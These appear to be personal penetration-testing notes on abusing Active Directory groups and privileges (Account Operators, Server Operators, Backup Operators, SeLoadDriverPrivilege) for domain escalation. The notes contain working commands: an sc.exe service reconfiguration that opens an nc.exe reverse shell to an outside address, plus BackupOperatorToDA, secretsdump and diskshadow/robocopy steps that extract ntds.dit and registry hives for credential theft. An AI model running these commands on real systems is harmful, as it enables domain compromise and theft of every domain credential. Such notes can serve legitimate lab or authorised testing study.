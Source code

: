 ## Account Operators
- Allows creating non administrator accounts and groups on the domain
- Allows logging in to the DC locally

However, we can still add new users:
![[image 17.png]]
As well as login to DC01 locally:
![[image 18.png]]

## Server Operators
This membership allows users to configure Domain Controllers with the following privileges:
- Allow log on locally
- Back up files and directories
- Change the system time
- Change the time zone
- Force shutdown from a remote system
- Restore files and directories
- Shut down the system

```
services

sc.exe config VMTools binPath="C:\Users\aarti\Documents\nc.exe -e cmd.exe 192.168.1.205 1234"
```

## Backup Operators
As with `Server Operators` membership, we can access the `DC01` file system if we belong to `Backup Operators`:
![[image 19.png]]
https://github.com/mpgn/BackupOperatorToDA
```
BackupOperatorToDA.exe -t \\dc.red.lab -u peter -p Password123 -d red.lab -o //10.0.0.3/share/BackupOperatorToDA.exe -t \\dc.red.lab -u peter -p Password123 -d red.lab -o C:\temp
```
```
impacket-secretsdump -sam /tmp/share/SAM -system /tmp/share/SYSTEM -security /tmp/share/SECURITY LOCAL
```

If evil-winrm
Create backup.txt:
```
set verbose onX  
set metadata C:\Windows\Temp\meta.cabX  
set context clientaccessibleX  
set context persistentX  
begin backupX  
add volume C: alias cdriveX  
createX  
expose %cdrive% E:X  
end backup
```

```
diskshadow /s backup.txt

robocopy /b E:\Windows\ntds . ntds.dit  
reg save hklm\system c:\temp\system  
download ntds.dit /home/kali/Downloads/Pilfered/lab/ntds.dit  
download C:\Temp\system /home/kali/Downloads/Pilfered/lab/system

```

## SeLoadDriverPrivilege
https://www.tarlogic.com/blog/seloaddriverprivilege-privilege-escalation/
A very dangerous privilege to assign to any user - it allows the user to load kernel drivers and execute code with kernel privilges aka `NT\System`. See how `offense\spotless` user has this privilege:

https://github.com/TarlogicSecurity/EoPLoadDriver/
![[ejecucion_eoploaddriver.webp]]
Use capcom to get shell as system
https://github.com/tandasat/ExploitCapcom
![[image 11.avif]]
